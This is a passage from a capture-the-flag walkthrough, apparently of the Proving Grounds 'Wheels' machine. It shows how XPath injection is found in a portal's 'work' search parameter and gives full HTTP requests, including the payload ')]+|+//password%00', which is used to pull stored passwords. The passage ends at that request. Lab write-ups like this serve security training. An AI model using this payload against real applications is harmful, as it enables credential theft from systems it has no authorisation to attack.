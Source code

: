 Register an user with the mentioned email domain `user@wheels.service` and login to the account.

![img](/assets/images/CTF/Proving_Grounds/Wheels/eportal.png)
 
After loggin in successfully click on the `Employee Portal` button and the page will be accessible. Now click on the Search button and intercept the request in Burp suite. The search button shows users in the service which is a possible users exist in the attacking machine.

Upon doing recon the parameter `work` in the request is vulnerable to XPath injection.

## XPath Injection

Send the below request and observe the XML error in the response.

```text
GET /portal.php?work=car'&action=search HTTP/1.1
Host: 192.168.196.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.196.202/portal.php?work=car&action=search
Cookie: PHPSESSID=e46fk6dmcbj9r807ojgflhej0e
Upgrade-Insecure-Requests: 1
```

```html
<table align="center" height="40" background-color="#92f0ff">
<tr height="40" bgcolor="#17ffb7" align="center">
<td width="200"><b>Search users by services: </b></td>
</tr>
XML Error; No car' entity found<br />
<b>Warning</b>:  SimpleXMLElement::xpath(): Invalid expression in <b>/var/www/html/portal.php</b> on line <b>68</b><br />
<tr height="40">
<td colspan="5" width="210">No users were found!</td>							
</tr>     							
</table>
```

### Exploitation

Send the payload `')]+|+//password%00` to extract passwords from the application.

#### Request

```text
GET /portal.php?work=car')]+|+//password%00&action=search HTTP/1.1
Host: 192.168.196.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.196.202/portal.php?work=car&action=search
Cookie: PHPSESSID=e46fk6dmcbj9r807ojgflhej0e
Upgrade-Insecure-Requests: 1
```

